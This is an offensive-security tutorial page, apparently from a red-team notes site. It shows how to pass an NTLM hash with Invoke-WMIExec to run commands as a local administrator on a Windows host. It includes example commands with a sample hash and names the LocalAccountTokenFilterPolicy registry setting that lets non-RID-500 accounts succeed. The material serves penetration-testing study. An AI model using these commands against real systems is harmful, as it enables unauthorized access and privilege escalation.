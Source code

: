 ```yaml
---
layout: post
title: "pass the hash privilege escalation with invoke wmiexec"
date: 2024-06-18
categories: privilege-escalation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /privilege-escalation/
---
```


# Pass The Hash: Privilege Escalation with Invoke-WMIExec

## Execution

If you have an NTLMv2 hash of a local administrator on a box ws01, it's possible to pass that hash and execute code with privileges of that local administrator account:

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username administrator -command hostname
```

Below shows how the user `low` is not a local admin, passes the hash of the local `administrator` account on ws01 and executes a command successfully:

![](<../../.gitbook/assets/image (167).png>)

## RID != 500 - No Pass The Hash for You

Say you have a hash of the user spotless who you know is a local admin on ws01:

![](<../../.gitbook/assets/image (175).png>)

...but when you attempt passing the hash, you get access denied - why is that?

![](<../../.gitbook/assets/image (174).png>)

It may be because hashes for accounts that are not RID=500 (not default administrator accounts) are stripped of some privileges during the token creation.

![](<../../.gitbook/assets/image (172).png>)

![](<../../.gitbook/assets/image (171).png>)

If the target system you are passing the hash to, has the following registry key/value/data set to 0x1, pass the hash will work even for accounts that are not RID 500:

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

![](<../../.gitbook/assets/image (166).png>)

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username spotless -command hostname
```

![](<../../.gitbook/assets/image (168).png>)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}
@spotheplanet
